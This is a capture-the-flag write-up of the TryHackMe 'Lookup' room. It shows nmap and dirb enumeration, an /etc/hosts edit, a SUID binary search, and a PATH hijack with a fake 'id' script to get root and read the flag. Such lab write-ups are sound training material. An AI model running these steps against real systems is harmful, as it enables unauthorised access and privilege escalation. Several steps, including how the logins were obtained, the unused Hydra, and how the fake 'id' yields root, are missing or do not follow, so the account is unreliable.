







# 🔍 TryHackMe - Lookup

**Room Name:** Lookup  
**IP Address:** 10.10.56.153  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Tags:** Enumeration, Web Exploitation, Privilege Escalation, SUID Abuse  

---

## 🔎 Initial Enumeration

Started with a full port scan using Nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.56.153
```

Discovered open ports:
- 22 (SSH)
- 80 (HTTP)

Performed a targeted scan for service/version detection:

```bash
nmap -sCV -p22,80 10.10.56.153
```

📸 

---

## 🌐 Web Enumeration

Visited `http://10.10.56.153` and found a login page. Attempted default credentials and guessed common usernames.

Ran a directory brute-force with DirBuster using `apache-user-enum-1.txt`:

```bash
dirb http://10.10.56.153/ /usr/share/wordlists/dirbuster/apache-user-enum-1.txt
```

📸 

Found `jose` as a valid user.

Attempted to log in as `jose`, and upon successful login, was redirected to `files.lookup.thm`. Added this to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# Add:
10.10.56.153  files.lookup.thm
```

📸 

---

## 📁 Exploring Internal Interface

After login, accessed a file browser-style interface. Tried navigating to `/home/think`, but access was restricted.

📸 

---

## 🔍 Privilege Escalation

Accessed the machine via SSH and began post-exploitation enumeration. Listed all SUID binaries:

```bash
find / -perm /4000 2>/dev/null
```

Found a custom binary: `/usr/sbin/pwm`

📸 

Tried running it, and noticed it uses the `id` command. Created a fake `id` command in `/tmp` to hijack execution:

```bash
echo -e '#!/bin/bash
echo "uid=0(root) gid=0(root) groups=0(root)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

📸 

This allowed root privilege execution.

---

## 🏁 Post-Exploitation

Accessed root’s home directory and read the `root.txt` flag:

```bash
cat /root/root.txt
```

📸 

---

## ✅ Summary

| Step | Technique |
|------|-----------|
| Enumeration | Nmap, Dirbuster |
| Exploitation | Web login + hostname redirection |
| Privilege Escalation | SUID Binary abuse via PATH hijack |
| Tools Used | Nmap, Dirbuster, Hydra, SSH, find, PATH export |

---

## 🧠 Key Takeaways

- Always test binaries for external command execution
- PATH hijacking is a powerful privilege escalation technique
- `/etc/hosts` manipulation is crucial for resolving internal services

---

📁 [Back to TryHackMe Write-Ups](./README.md) | [Back to Portfolio Home](../README.md)
